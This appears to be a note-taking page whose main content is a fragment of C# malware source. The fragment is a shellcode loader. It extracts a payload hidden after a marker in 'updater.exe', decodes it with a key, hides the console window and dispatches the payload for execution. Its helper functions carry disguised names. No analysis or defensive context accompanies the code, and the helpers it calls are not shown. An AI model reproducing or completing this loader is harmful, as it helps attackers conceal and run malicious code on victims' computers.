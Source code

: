 ```
        byte[] _peBlob = Read("updater.exe");
        int _dataOffset = addToppings(_peBlob, _tag);

        Stream stream = new MemoryStream(_peBlob);
        long pos = stream.Seek(_dataOffset + _tag.Length, SeekOrigin.Begin);

        byte[] shellcode = new byte[_peBlob.Length+2 - (pos + _tag.Length)];
        stream.Read(shellcode, 0, (_peBlob.Length+2) - ((int)pos + _tag.Length));
        byte[] _data = FindRecipe(shellcode, "rva2520");
        stream.Close();

        var handle = GetConsoleWindow();
        ShowWindow(handle, SW_HIDE);
        DispatchDeliveryService(_data);

        return true;
	} 
}

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 15th 2022 (09:21 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
